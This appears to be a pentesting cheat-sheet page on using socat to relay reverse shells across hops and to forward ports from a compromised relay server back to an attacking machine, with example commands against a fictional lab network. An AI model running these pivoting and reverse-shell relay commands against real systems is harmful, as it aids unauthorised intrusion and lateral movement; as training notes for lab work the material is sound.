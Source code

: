 # Socat

[https://github.com/3ndG4me/socat/releases/tag/v1.7.3.3](https://github.com/3ndG4me/socat/releases/tag/v1.7.3.3)

## Reverse shell relay

This way we can relay reverse shells for multiple hops

```
./socat tcp-l:LPORT tcp:RHOST:RPORT &
```

## Port forwarding (fast n' ugly)

```
./socat tcp-l:LPORT,fork,reuseaddr tcp:RHOST:RPORT &
```

## Port forward (advanced)

First of all, on our own attacking machine, we issue the following command:
```
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the fork and reuseaddr options set, to allow us to create more than one connection using this port forward.

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:
```
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:
```
./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```


